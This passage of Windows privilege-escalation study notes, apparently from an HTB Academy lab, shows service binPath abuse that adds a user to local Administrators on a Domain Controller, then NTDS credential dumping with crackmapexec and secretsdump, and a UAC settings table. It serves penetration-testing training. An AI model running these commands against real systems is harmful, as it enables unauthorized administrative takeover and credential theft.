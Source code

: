 Let's take a look at the current members of the local administrators group and confirm that our target account is not present:
```console
C:\zeropio> net localgroup Administrators
```

Let's change the binary path to execute a command which adds our current user to the default local administrators group:
```console
C:\zeropio> sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

Starting the service fails, which is expected:
```console
C:\zeropio> sc start AppReadiness
```

If we check the membership of the administrators group, we see that the command was executed successfully:
```console
C:\zeropio> net localgroup Administrators
```

From here, we have full control over the Domain Controller and could retrieve all credentials from the NTDS database and access other systems, and perform post-exploitation tasks.:
```console
zero@pio$ crackmapexec smb <TARGET> -u server_adm -p 'HTB_@cademy_stdnt!'
```

```console
zero@pio$ secretsdump.py server_adm@<TARGET> -just-dc-user administrator
```

---

# Attacking the OS 

## User Account Control (UAC)

User Account Control (UAC) is a feature that enables a consent prompt for elevated activities. Applications have different integrity levels, and a program with a high level can perform tasks that could potentially compromise the system. [This](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works) page gives a detail explanation. There are 10 Group Policy settings that can be set for UAC:

| **Group Policy Setting**  | **Registry Key**    | **Default Setting**    |
|---------------- | --------------- | --------------- |
| UAC: Admin Approval Mode for the built-in Administrator account | FilterAdministratorToken | Disabled |
| UAC: Allow UIAccess applications to prompt for elevation without using the secure desktop | EnableUIADesktopToggle | Disabled |
| UAC: Behavior of the elevation prompt for administrators in Admin Approval Mode | ConsentPromptBehaviorAdmin | Prompt for consent for non-Windows binaries |
| UAC: Behavior of the elevation prompt for standard users | ConsentPromptBehaviorUser | Prompt for credentials on the secure desktop |
| UAC: Detect application installations and prompt for elevation | EnableInstallerDetection | Enabled (default for home) Disabled (default for enterprise) |
| UAC: Only elevate executables that are signed and validated | ValidateAdminCodeSignatures | Disabled |
| UAC: Only elevate UIAccess applications that are installed in secure locations | EnableSecureUIAPaths  | Enabled |
| UAC: Run all administrators in Admin Approval Mode | EnableLUA | Enabled |
| UAC: Switch to the secure desktop when prompting for elevation | PromptOnSecureDesktop | Enabled |
| UAC: Virtualize file and registry write failures to per-user locations | EnableVirtualization | Enabled |
